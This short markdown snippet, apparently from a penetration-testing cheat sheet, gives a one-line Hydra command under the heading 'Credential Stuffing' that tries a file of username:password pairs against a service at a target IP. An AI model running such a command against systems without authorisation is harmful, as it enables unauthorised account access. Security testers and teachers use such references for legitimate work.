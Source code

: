 ----------------
# Credential Stuffing
-------------------------------
- Hydra
```bash
hydra -C $USER_PASS_FILE $PROTOCOL://$IP
```